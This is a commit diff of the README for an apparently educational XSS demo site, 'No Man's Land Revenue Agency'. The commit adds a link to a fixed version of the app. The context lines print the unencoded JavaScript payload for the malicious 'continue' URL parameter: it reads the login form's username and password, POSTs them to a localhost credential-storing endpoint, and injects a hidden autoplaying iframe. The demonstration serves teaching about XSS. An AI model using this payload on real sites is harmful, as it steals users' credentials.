

Before and after one commit to mtsanovv/nomanslandra, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -21,6 +21,7 @@ To get started, navigate to No Man's Land Revenue Agency home page: [https://mts
 ## Notes
 - Created for educational purposes only and to demonstrate how bad XSS vulnerabilities can be
 - Recommended browser engine: Chromium (Chrome). Gecko (Firefox) might also work but it has not been tested and WebKit (Safari) is not recommended due to odd behavior
+- The app that has those XSS vulnerabilities fixed can be found at the following URL: [https://mtsanovv.github.io/nomanslandra/frontendInvulnerable/index.html](https://mtsanovv.github.io/nomanslandra/frontendInvulnerable/index.html)
 - This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
 ```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
 - The website is based on Telephasic by HTML5UP!
````
